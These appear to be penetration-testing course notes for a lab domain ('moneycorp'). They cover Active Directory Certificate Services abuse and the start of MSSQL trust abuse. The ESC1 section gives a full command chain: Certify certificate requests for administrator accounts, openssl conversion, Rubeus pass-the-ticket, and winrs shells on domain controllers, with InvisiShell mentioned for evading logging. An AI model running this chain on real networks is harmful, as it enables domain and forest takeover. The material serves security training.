 CSR - Certificate Signing Request made by a client to the CA to request a certificate.
Certificate Template - Defines settings for a certificate. Contains information like - enrolment permissions, EKUs, expiracy, etc
EKU OIDs - Extended Key Usages Object Identifier. These dictate the use of a certificate template (Client authentication, Smart Card Logon, SubCA, etc)
Ways of abusing ADCS: Extract user and machine certificates, Use certificates to retrieve NTLM hash, User and machine level persistence, Escalation to DA and EA, Domain Persistence
- #### ***Enumerate ADCS in the target forest***
We can use the Certify tool (https://github.com/GhostPack/Certify)
`Certify.exe cas`
- #### ***Enumerate the templates***
`Certify.exe find`
- #### ***Enumerate vulnerable templates***
`Certify.exe find /vulnerable`
In moneycorp, there are multiple configurations in ADCS. Common requirements/misconfigurations for all the Escalations that we have in the lab (ESC1): CA grants normal/low-privileged users enrollment rights; Manager approval is disabled; Authorization signatures are not required; The target template grants normal/low-privileged users enrollment rights
ESC1 - enrollee can request a certificate for any user
`C:\AD\Tools\Certify.exe find /enrolleeSuppliesSubject` (enumerate ESC1 vulnerable templates, look for Enrollment Rights)
- #### ***Exploit ESC1***
`C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:administrator` (request the enterprise CA to provide a certificate from HTTPSCertificates template, for the administrator user, DA of our current domain)
(copy and save as esc1.pem)
`openssl.exe pkcs12 -in C:\AD\Tools\esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc1-DA.pfx` (convert to PFX format to use the certificate with Rubeus, remember password used to encrypt)
`C:\AD\Tools\Rubeus.exe asktgt /user:administrator /certificate:C:\AD\Tools\esc1-DA.pfx /password:<password above> /ptt` (request TGT for DA)
`winrs -r:dcorp-dc cmd` (access DC)
`klist purge` (purge the ticket created to avoid fails)
`C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:moneycorp.local\administrator` (request the enterprise CA to provide a certificate from HTTPSCertificates template, for the administrator user, DA of our current forest root)
(copy and save as esc1-EA.pem)
`openssl.exe pkcs12 -in C:\AD\Tools\esc1-EA.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc1-EA.pfx` (convert to PFX format to use the certificate with Rubeus, remember password used to encrypt)
`C:\AD\Tools\Rubeus.exe asktgt /user:moneycorp.local\Administrator /dc:mcorp-dc.moneycorp.local /certificate:C:\AD\Tools\esc1-EA.pfx /password:<password above> /ptt` (request TGT for DA/EA of the forest root for the specified DC)
`winrs -r:mcorp-dc cmd` (access forest root DC)
# **Learning Objective 21**
[[Learning Objective 21]]
# **Trust Abuse - MSSQL Servers**
MSSQL server are generally deployed in plenty in a Windows domain. SQL Servers provide very good options for lateral movement as domain users can be mapped to database roles. For MSSQL and PowerShell, lets use PowerUpSQL (https://github.com/NetSPI/PowerUpSQL)
- #### ***Discovery (SPN Scanning)***
`Get-SQLInstance`
- #### ***Check Accessibility***
`Get-SQLConnectionTestThreaded`
`Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose`
- #### ***Gather Information***
`Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose`
(start InvisiShell)
`Import-Module C:\AD\Tools\PowerUpSQL-master/PowerUpSQL.psd1` (import module)
`Get-SQLInstanceDomain` (Scan SPNs that start with MSSQL)